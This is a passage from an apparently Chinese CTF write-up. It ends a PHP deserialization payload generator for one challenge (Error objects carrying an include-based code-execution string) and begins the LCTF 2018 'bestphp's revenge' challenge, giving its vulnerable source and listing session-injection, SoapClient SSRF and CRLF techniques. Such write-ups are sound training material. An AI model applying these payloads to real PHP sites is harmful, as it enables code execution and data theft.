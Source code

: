 ```
    $str = "?><?=include~" . urldecode($s) . "?>";
    $a = new Error($str, 1);$b = new Error($str, 2);
    $c = new SYCLOVER();
    $c->syc = $a;
    $c->lover = $b;
    echo(urlencode(serialize($c)));
    ?>
    ```

#### bestphp's revenge

##### 知识点

**session反序列化->soap(ssrf+crlf)->call_user_func激活soap类**

1. SoapClient触发反序列化导致ssrf
2. serialize_hander处理session方式不同导致session注入
3. crlf漏洞

##### 解题思路

首先，php反序列化没有可利用的类时，可以调用php原生类，参考[反序列化之PHP原生类的利用](https://xz.aliyun.com/t/13785?time__1311=mqmxnQKGqQwx9DBqDTeeqBKMk8IFG87D27eD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fsearch%3Fkeyword%3D%25E5%258E%259F%25E7%2594%259F%25E7%25B1%25BB)

```php
//index.php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>
```

```php
//flag.php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```
